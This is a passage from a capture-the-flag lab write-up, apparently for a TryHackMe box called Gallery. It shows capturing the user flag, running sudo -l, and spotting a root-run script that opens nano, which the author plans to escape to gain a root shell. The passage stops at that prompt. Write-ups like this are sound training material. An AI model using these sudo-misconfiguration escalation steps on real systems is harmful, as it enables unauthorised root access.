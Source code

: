 I go and grab the user flag completing the fourth objective:

```
mike@gallery:/var/backups/mike_home_backup$ cd ~
mike@gallery:~$ ls
documents  images  user.txt
mike@gallery:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

Let's check the obvious `sudo -l`:

```
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

<br>

## Root

That looks interesting let's go see what it does:

```
mike@gallery:/opt$ cat rootkit.sh 
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

The last option is definitely what we're looking for here. This **rootkit.sh** file is ran as root and we can easily break out of nano and retain those privileges.

`sudo /bin/bash /opt/rootkit.sh`

```
Would you like to versioncheck, update, list or read the report ? read
```
